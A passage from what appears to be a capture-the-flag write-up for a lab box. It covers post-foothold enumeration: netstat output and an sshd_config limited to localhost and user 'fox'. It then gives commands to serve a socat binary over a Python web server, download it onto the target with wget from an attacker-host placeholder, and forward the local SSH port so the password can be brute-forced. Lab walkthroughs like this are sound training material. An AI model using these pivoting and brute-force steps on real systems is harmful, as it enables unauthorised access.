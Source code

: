 I tried using this as creds for smb as well as the website but nothing worked so seems like its a rabbit hole.

### Shell as fox

Moving on the services we can see following services running on the server :

```
netstat -tulwn
```

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:netbios-ssn     0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 localhost:ssh           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:microsoft-ds    0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:netbios-ssn        [::]:*                  LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:microsoft-ds       [::]:*                  LISTEN     
udp        0      0 ip-10-10-255:netbios-ns 0.0.0.0:*                          
udp        0      0 ip-10-10-95-:netbios-ns 0.0.0.0:*                          
udp        0      0 0.0.0.0:netbios-ns      0.0.0.0:*                          
udp        0      0 ip-10-10-25:netbios-dgm 0.0.0.0:*                          
udp        0      0 ip-10-10-95:netbios-dgm 0.0.0.0:*                          
udp        0      0 0.0.0.0:netbios-dgm     0.0.0.0:*                          
udp        0      0 localhost:domain        0.0.0.0:*                          
udp        0      0 ip-10-10-95-190.:bootpc 0.0.0.0:*                          
raw6       0      0 [::]:ipv6-icmp          [::]:*     
```

huh! SSH is running on localhost to validate we can check the conf file (/etc/ssh/sshd_config) :

- From the file two lines were most interesting
	- ListenAddress 127.0.0.1 
	- AllowUsers fox

So this clearifies the ssh is running on localhost and only "fox" can login through it. Here we can do port forwarding and perform bruteforcing the password.

For this purpose we will use [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) and to  transfer it to the target server we can use python server 

```
python3 -m http.server
```

download socat on the target server -

```
cd /tmp
wget http://<IP>:8000/socat 
chmod +x /tmp/socat
```

```
/tmp/socat TCP-LISTEN:8000,fork TCP:127.0.0.1:22
```
